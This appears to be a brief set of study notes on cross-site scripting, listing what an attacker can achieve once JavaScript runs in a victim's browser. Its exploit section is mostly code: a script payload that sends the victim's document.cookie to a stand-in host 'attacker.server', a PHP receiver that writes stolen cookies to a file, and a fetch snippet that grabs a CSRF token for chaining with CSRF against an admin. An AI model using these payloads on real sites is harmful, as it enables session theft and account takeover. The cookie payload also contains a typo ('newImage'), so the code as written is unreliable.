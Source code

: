 ## Essence
- Within certain restrictions, driving victim to execute any JavaScript.

## Exploit
- obtain sensitive information
  - cookie
```
<script>newImage().src="http://attacker.server/get.php?cookie="+document.cookie;</script>

<?php
$ck =$_GET['cookie'];
error_log("$ck\n",3,"cookie.txt");
?>
```
  - token: AccessToken, CSRFToken
```
function getcsrftoken(){
fetch("/api/v1/getToken",
{
    headers: {
      'Accept': 'application/json',
      'Content-Type': 'application/json'
    },
    method: "POST",
    body: JSON.stringify({a: 1, b: 2})
})
// .then(function(res){ console.log(res) })
.then(e=>e.json())
.then(e=>console.log(window.csrfToken=e.data.csrfToken))
}

<!-- same origin-->
```
- request certain special service
  - Combine with CSRF: admin

- 
